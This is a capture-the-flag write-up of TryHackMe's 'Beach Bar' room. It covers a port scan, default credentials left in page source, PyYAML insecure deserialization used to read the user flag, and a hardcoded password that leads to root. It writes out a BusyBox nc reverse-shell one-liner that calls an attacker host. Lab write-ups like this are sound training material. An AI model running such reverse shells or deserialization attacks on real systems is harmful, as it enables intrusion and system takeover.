








Today we'll take a look at the [Beach Bar challenge](https://tryhackme.com/room/hh-beachbar-d849f7f7) from TryHackMe, an easy room about simple web vulnerabilities.

## Recon

First of all, let's perform a port scan with `nmap -sV $MACHINE_IP`:

```shell
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.6p1 Ubuntu 3ubuntu13.18 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Gunicorn (python)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
We notice a web application running on Gunicorn on port 80, so let's connect to it.

## User flag

We land on the `/login` page of the app. By viewing the page source (`Ctrl+U`), we can find a comment containing the hardcoded default credentials `dj:dj`.




Logging in with the credentials and navigating through the app, we can find an import page where the user can paste YAML to import playlists and songs.
This page is **vulnerable to [Insecure YAML Deserialization](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Insecure%20Deserialization/Python.md#pyyaml)** (remember: we spotted the Python backend earlier with nmap!). From this, we can **print the user flag** directly on the page.




## Root flag

After this, we need to find a privilege escalation path. First of all, enumerating the app folder (`/opt/beach-bar`) we can find a strange `jukeboxd` file. The name resembles a systemd service, so by running `ps aux` we can find a call to this process with a hardcoded password in it. (*Useful advice: use a Python shell and print the command output in the web application for better readability*).




The next step is to gain a **reverse shell**. For this, we can see that this machine has *BusyBox* installed, a single-binary multitool for small Linux systems. With this information, we can craft a simple **BusyBox nc reverse shell** (`busybox nc $ATTACKER_IP $ATTACKER_PORT -e bash`) and use the previously found password to obtain root privileges with the `su` command.




## Conclusion

In this room I learned how embedded/small Linux products can be vulnerable to simple attack chains and how critical an insecure deserialization can be.
To mitigate these types of attacks, it is really important to **validate all user input** and **avoid using cleartext credentials both inside the application and in the entire system**.

Thanks for your attention and happy hacking! <3
